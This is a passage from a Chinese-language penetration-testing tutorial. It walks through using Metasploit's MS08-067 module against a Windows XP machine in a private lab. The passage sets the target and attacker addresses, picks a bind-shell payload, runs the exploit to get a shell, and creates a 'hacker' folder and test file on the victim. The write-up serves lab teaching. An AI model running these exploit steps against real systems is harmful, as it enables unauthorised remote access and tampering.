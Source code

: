 ![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-082aa42f6e0f818d3ec28c71eb50c7c7.jpg)

第三步，进入漏洞模块，并查看相关的使用说明。

使用 `use` 命令选择我们要使用的利用模块。`target` 设置为系统默认是自动定位，如果需要精确定位，可以 `show targets` 查看所有，然后进行选择。

```shell
use exploit/windows/smb/ms08_067_netapi
show options
show targets
```

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-fe8c08cb34c9138c12e0bce6a017677a.jpg)

第四步，设置攻击机、受害机信息。

```shell
# 目标机ip
set RHOST 192.168.44.135
# 端口号
set RPORT 445
# 设置payload
set payload generic/shell_bind_tcp
# 攻击机ip
set LHOST 192.168.44.136
# 设置自动类型
set target 0
# 显示配置信息
show options
```

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-aa9c47f656d5e148d55aa49c4c6d8b2b.jpg)

第五步，运行 exploit 反弹 shell。此时我们成功获取了 Windows XP 系统的 Shell，我们调用 `ipconfig` 查看的 IP 地址也是目标的 `192.168.44.135`。

```shell
exploit
session 1
ipconfig
pwd
```

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-006a65fc098ff3370ff4fe535d5843b6.jpg)

第六步，在目标主机上创建文件夹及文件。

```shell
cd ..
# 创建文件夹
mkdir hacker
# 访问目录
dir
cd hacker
# 创建文件并写入内容
echo eastmount>test.txt
# 查看目标系统的基本信息
sysinfo
```
